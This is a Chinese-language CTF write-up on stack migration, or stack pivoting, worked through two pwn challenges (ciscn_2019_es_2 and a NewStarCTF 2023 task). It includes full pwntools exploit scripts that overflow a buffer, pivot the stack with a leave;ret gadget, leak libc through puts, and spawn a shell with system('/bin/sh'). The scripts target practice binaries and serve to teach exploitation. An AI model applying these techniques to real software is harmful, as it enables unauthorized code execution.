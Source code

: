 ```yaml
---
title: Stack Migration
tags: [ctf-pwn]
date: 2023-10-11 14:10:00
categories: [ctf-pwn]
excerpt: 栈迁移/栈劫持
---
```


### Stack Migration

#### ciscn_2019_es_2

https://buuoj.cn/challenges#ciscn_2019_es_2

![](/img/stack_migration/1.jpg)

溢出的长度不足以写rop链，劫持rbp到一个足够大的空间里去

首先通过调试查看ebp到可输入空间开头的距离

```python
gdb.attach(p, "b *0x080485FC") # 在python pwntools里下断点的方法（要放在开头），进去按一下c
```

![](/img/stack_migration/2.jpg)

程序输出的rbp为`0xffdb7098`，和图中aaaa的位置相差0x38，一会就要将ebp覆盖为ebp-0x38，从而开辟足够的空间来构造rop

然后`vul()`函数原本的返回地址被`&(leave ret)`取代了这样在`vul()`执行结束时，相当于多执行一次leave ret

过程如下：

```
1. vul()原本的leave
esp->ebp-0x38   ebp->aaaa   esp->leave ret
2. vul()原本的ret
eip->leave ret  esp->比返回地址再低4个字节的位置上
3. leave
esp->aaaa    ebp == aaaa  esp->system@plt
4. ret 
eip->system@plt   esp->system的返回地址（瞎写的）
```

这时，就相当于一个普通的rop了，system@plt为一个被溢出的返回地址，在他后面的是system的返回地址和它的参数，而"/bin/sh\x00"为一个字符串，需要一个指针指向它，因此需要计算一下binsh的地址。

由于aaaa是ebp-0x38，binsh距离aaaa有16个字节，那么这个地方填上ebp-0x28，就能给system传进去binsh的参数了。



**exp**

```python
from pwn import *
r = process("./ciscn_2019_es_2")
#r=remote('node4.buuoj.cn',25391)
gdb.attach(r, "b *0x080485FC") 
sys=0x8048400
leave_ret=0x08048562
main=0xdeadbeef

payload='a'*0x27+'b'
r.send(payload)
r.recvuntil("b")
ebp = u32(r.recv(4))
print(hex(ebp))

payload2=b'aaaa'+p32(sys)+p32(main)+p32(ebp-0x28)+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)

r.send(payload2)
r.interactive()
```

#### 





#### NewStarCTF 2**023** 

stack migration

![](/img/stack_migration/3.jpg)

和前面的唯一区别在于需要先泄露libc地址，题目又给了libc

需要注意的还是不要sendline，因为会多一个\n，占掉了下一次输入，payload2就输入不进去了

```python
from pwn import *
#p = process("./pwn")
p = remote("node4.buuoj.cn",25029)

#gdb.attach(p, "b *0x4012a9")
e = ELF("./pwn")

#context.log_level="debug"

leave_ret = 0x4012aa
poprdi_ret = 0x401333
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]
#main = e.sym["main"]
main = 0x4012ac
start = 0x4010b0

p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))


p.recvuntil(b"more infomation plz:\n")
payload2 = ( p64(poprdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start)).ljust(80,b'a')
payload2+= p64(buf_addr) + p64(leave_ret)
p.send(payload2)


p.recvuntil(b"maybe I'll see you soon!\n")

puts_addr = u64(p.recvuntil(b"\x7f").ljust(8,b"\x00"))

print("puts:----" + str(hex(puts_addr)))


libc = ELF("libc.so.6")
libc.address =  puts_addr - libc.sym['puts']
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))


p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))

p.recvuntil(b"more infomation plz:\n")
payload2 = (p64(poprdi_ret) + p64(binsh) + p64(system)).ljust(80,b"a")
payload2+= p64(buf_addr) + p64(leave_ret)
p.sendline(payload2)

p.interactive()

```


